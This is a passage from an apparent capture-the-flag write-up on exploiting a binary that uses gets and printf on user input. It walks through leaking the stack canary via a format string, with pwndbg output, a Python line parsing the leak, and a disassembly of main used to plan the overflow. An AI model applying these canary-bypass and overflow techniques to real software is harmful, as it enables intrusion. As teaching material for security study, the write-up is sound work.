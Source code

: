 ```nasm
pwndbg> canary
AT_RANDOM = 0x7ffe77ba1d19 # points to (not masked) global canary value
Canary    = 0x24d6f325ad209a00 (may be incorrect on != glibc)
Found valid canaries on the stacks:
00:0000│  0x7ffe77ba1758 ◂— 0x24d6f325ad209a00
00:0000│  0x7ffe77ba18d8 ◂— 0x24d6f325ad209a00
00:0000│  0x7ffe77ba1978 ◂— 0x24d6f325ad209a00
```

So, the canary will be in the 17th element on the stack. We can't grab the address immediately, because it will change every time we run the program. But this isn't a problem cause we can use python to grab it for us.

```python
canary = int(leak[17], 16)
info(f"canary at: {hex(canary)}")
```

 Now for the last part of our exploit, we need to know how is the stack alignment after our input to avoid crushing the program. 
 We can find it with gdb with inserting some string and setting a breakpoint after the gets function.
The canary for this time will be "0xf0f7e6fa75d95d00".

```nasm
pwndbg> disassemble main
Dump of assembler code for function main:
   0x000000000040132b <+0>:     endbr64
   0x000000000040132f <+4>:     push   rbp
   0x0000000000401330 <+5>:     mov    rbp,rsp
   0x0000000000401333 <+8>:     sub    rsp,0x60
   0x0000000000401337 <+12>:    mov    rax,QWORD PTR fs:0x28
   0x0000000000401340 <+21>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000401344 <+25>:    xor    eax,eax
   0x0000000000401346 <+27>:    mov    QWORD PTR [rbp-0x50],0x0
   0x000000000040134e <+35>:    mov    QWORD PTR [rbp-0x48],0x0
   0x0000000000401356 <+43>:    mov    QWORD PTR [rbp-0x40],0x0
   0x000000000040135e <+51>:    mov    QWORD PTR [rbp-0x38],0x0
   0x0000000000401366 <+59>:    mov    QWORD PTR [rbp-0x30],0x0
   0x000000000040136e <+67>:    mov    QWORD PTR [rbp-0x28],0x0
   0x0000000000401376 <+75>:    mov    QWORD PTR [rbp-0x20],0x0
   0x000000000040137e <+83>:    mov    QWORD PTR [rbp-0x18],0x0
   0x0000000000401386 <+91>:    mov    DWORD PTR [rbp-0x54],0x0
   0x000000000040138d <+98>:    mov    eax,0x0
   0x0000000000401392 <+103>:   call   0x40125d <init>
   0x0000000000401397 <+108>:   lea    rax,[rip+0xeae]        # 0x40224c
   0x000000000040139e <+115>:   mov    rdi,rax
   0x00000000004013a1 <+118>:   call   0x4010a0 <puts@plt>
   0x00000000004013a6 <+123>:   lea    rax,[rbp-0x50]
   0x00000000004013aa <+127>:   mov    rdi,rax
   0x00000000004013ad <+130>:   call   0x4010e0 <gets@plt>
   0x00000000004013b2 <+135>:   lea    rax,[rbp-0x50]
   0x00000000004013b6 <+139>:   mov    rdi,rax
   0x00000000004013b9 <+142>:   mov    eax,0x0
   0x00000000004013be <+147>:   call   0x4010c0 <printf@plt>
   0x00000000004013c3 <+152>:   lea    rax,[rip+0xe94]        # 0x40225e
   0x00000000004013ca <+159>:   mov    rdi,rax
   0x00000000004013cd <+162>:   call   0x4010a0 <puts@plt>
   0x00000000004013d2 <+167>:   lea    rax,[rbp-0x50]
   0x00000000004013d6 <+171>:   mov    rdi,rax
   0x00000000004013d9 <+174>:   call   0x4010e0 <gets@plt>
   0x00000000004013de <+179>:   lea    rax,[rbp-0x50]
   0x00000000004013e2 <+183>:   mov    rdi,rax
   0x00000000004013e5 <+186>:   call   0x401100 <atoi@plt>
   0x00000000004013ea <+191>:   mov    DWORD PTR [rbp-0x54],eax
```